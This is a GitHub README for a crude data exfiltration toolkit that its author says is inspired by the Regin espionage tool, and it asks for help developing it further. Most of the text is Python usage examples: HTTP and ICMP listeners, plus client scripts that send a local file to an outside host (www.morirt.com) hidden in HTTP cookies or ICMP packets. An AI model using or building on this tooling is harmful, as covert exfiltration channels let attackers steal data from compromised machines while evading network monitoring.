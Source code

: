 # Exfiltrator Example

Getting a bit more serious now. 
Still very crude and not really usable but getting more functionality. 
It now has data exfiltration over ICMP (not tested!) and over HTTP Cookies. 
Read the open issues on GitHub and come give a hand. A lot more to be done. 

It is inspired by some of the features of [Regi](http://www.symantec.com/connect/blogs/regin-top-tier-espionage-tool-enables-stealthy-surveillance).

## Usage example:
### HTTP Exfilatration Server:
    #!/usr/bin/python
    from exfiltration.http_exfiltration import *
    def main():
    	print "Starting a listener: "
    	listen("127.0.0.1", 80)
    
    if __name__ == "__main__":
    	main()

### HTTP Exfiltration Client:
    #!/usr/bin/python
    
    from exfiltration.http_exfiltration import *
    
    def main():
        FILE_TO_EXFIL = "/bin/bash"
        ADDR = "www.morirt.com"
    
        if send_file(ADDR, FILE_TO_EXFIL) == 0:
            print "File exfiltrated okay."
        else:
            print "Damn thing failed."
    
    if __name__ == "__main__":
        main()
        
### ICMP Server
    #!/usr/bin/python
    
    from exfiltration.icmp_exfiltration import *
    
    def main():
        ADDR = "127.0.0.1"
        TMP_PATH = "/tmp/"
        
        init_listener(ADDR, TMP_PATH)
    
    if __name__ == "__main__":
        main()

### ICMP Exfiltrator
    #!/usr/bin/python
    
    from exfiltration.icmp_exfiltration import *
    
    def main():
        FILE_TO_EXFIL = "/bin/bash"
        ADDR = "www.morirt.com"
        
        if send_file(ADDR, FILE_TO_EXFIL) == 0:
            print "File exfiltrated okay."
        else:
            print "Damn thing failed."
    
    if __name__ == "__main__":
        main()




